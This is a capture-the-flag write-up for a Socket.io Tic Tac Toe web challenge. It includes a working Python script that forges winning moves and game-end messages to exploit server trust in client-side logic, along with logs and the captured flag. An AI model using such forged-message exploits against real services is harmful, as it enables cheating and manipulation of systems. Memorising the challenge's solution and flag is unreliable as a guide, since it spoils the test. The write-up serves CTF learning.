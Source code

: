 Tic Tac Toe
-----------
> TheEmperors learned how to play the Tic Tac Toe game and since that time,
> for million of years, no one have defeated them in this game. You have to defeat
> TheEmperors player 100 times to become the newest serial winner of this game. Then you will get the flag
> 
> Link : http://web2.quals18.ctfsecurinets.com:5000

Open the link, open the developer console, and play a few games. Notice that the communication to the server happens
over a Websockets connection -- specifically using the Socket.io protocol. For example, we can see the following interaction

```
> ["createGame", {name: "test"}]
< ["newGame",{"name":"test","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","player1":{"name":"test","wins":0,"loose":0,"serial_winner":0},"player2":{"name":"TheEmperors","wins":1928,"loose":10320}}]

> ["joinGame",{"ennemy_name":"TheEmperors","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["player2",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]

> ["playTurn",{"row":"0","col":"0","player":"O","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["turnPlayed",{"row":"0","col":"0","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","matrix":[["O","-","-"],["-","-","-"],["-","-","-"]]}]

> ["playTurn",{"row":"1","col":"1","player":"X","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["turnPlayed",{"row":"1","col":"1","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","matrix":[["O","-","-"],["-","X","-"],["-","-","-"]]}]

...

> ["gameEnded",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","message":"Checkmate like a charm ;) TheEmperors player wins!"}]
< ["gameEnd",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","message":"Checkmate like a charm ;) TheEmperors player wins!"}]
```

Note that The Emperor's moves are calculated on the _client side_! This opens possibilities.

Using [socketIO-client](https://pypi.python.org/pypi/socketIO-client), we can easily write a client in Python to send exactly what we
want to the server. We simply position three 'X'-es on the diagonal, and tell the server the game is finished. The server happily accepts
this, and starts a new game. We repeat this until the server sends us the flag.

The message/callback order is as follows:
1. Client sends `createGame` message
2. Server sends `newGame`, client sends `joinGame`
3. Server sends `player2`, client sends `playTurn`
4. Server sends `turnPlayed`. Client sends `playTurn` if moves remaining (goto 4) or `gameEnded` otherwise (goto 2)

```python
import logging
logging.getLogger('socketIO-client').setLevel(logging.DEBUG)
logging.basicConfig()

from socketIO_client import SocketIO, LoggingNamespace
import time

class TicTacToe:
    max_iters = 150  # make sure we don't keep repeating until infinity
    turns = [("X", 0, 0), ("X", 1, 1), ("X", 2, 2)]  # three X-es on the diagonal

    def __init__(self):
        self.iters = 0
        
        self.client = SocketIO('ec2-54-194-213-165.eu-west-1.compute.amazonaws.com', 5000, LoggingNamespace)
        self.client.on('newGame', self.newGame)
        self.client.on('player2', self.nextTurn)
        self.client.on('turnPlayed', self.nextTurn)

    def create_game(self):
        self.client.emit("createGame", {"name": "DancingSimpletons"})

    def newGame(self, args):
        time.sleep(0.1)
        
        self.iters += 1
        print("iteration ", self.iters)
        if (self.iters > self.max_iters):
            return

        self.turnindex = 0
        self.room = args['room']
        self.enemy = args['player2']['name']
        
        self.client.emit("joinGame", {"ennemy_name": self.enemy, "room": self.room})

    def nextTurn(self, args):
        if (self.turnindex == len(self.turns)):
            return self.lastTurn(args)

        (player, row, col) = self.turns[self.turnindex]
        self.turnindex += 1

        self.client.emit("playTurn", {
                'row': row,
                'col': col,
                'player': player,
                'room': self.room
        })

    def lastTurn(self, args):
        self.client.emit("gameEnded", {
                'message': 'whatever',
                'room': self.room
        })

t = TicTacToe()
t.create_game()
t.client.wait(seconds=100)
```

When we run this, we get (NB. 'packet sent' are sent messages, while 'message' indicates a received message)
```
[engine.io transport selected] websocket
[engine.io heartbeat reset]
[socket.io packet sent] 2["createGame", {"name": "DancingSimpletons"}]
[engine.io message] b'0'
[socket.io packet received] b'0'
[socket.io connect]
[socket.io connected]
[engine.io pong] b''
[engine.io message] b'2["newGame",{"name":"DancingSimpletons","room":"1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b","player1":{"name":"DancingSimpletons","wins":0,"loose":0,"serial_winner":0},"player2":{"name":"TheEmperors","wins":1956,"loose":10445}}]'
[...]
[socket.io packet sent] 2["gameEnded", {"message": "whatever", "room": "1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b"}]
[engine.io message] b'2["newGame",{"room":"1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b","player1":{"name":1,"wins":1,"loose":0,"serial_winner":1},"player2":{"name":"TheEmperors","wins":1956,"loose":10446}}]'
[...]
[socket.io packet received] b'2["newGame",{"room":"1a35dc1c9fef1f3e68be621a11582bf25db8cffe611ec33afe3465fbfd54b5ae570bf55a068dc56a89fab1be91f37890","player1":{"name":100,"wins":100,"loose":0,"serial_winner":100},"player2":{"name":"TheEmperors","wins":1961,"loose":10651}}]'
[...]
[socket.io packet sent] 2["gameEnded", {"message": "whatever", "room": "1a35dc1c9fef1f3e68be621a11582bf25db8cffe611ec33afe3465fbfd54b5ae570bf55a068dc56a89fab1be91f37890"}]
[engine.io message] b'2["getMyLovelyFlag","Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}"]'
[socket.io packet received] b'2["getMyLovelyFlag","Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}"]'
[socket.io event] getMyLovelyFlag('Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}')
```

Success!
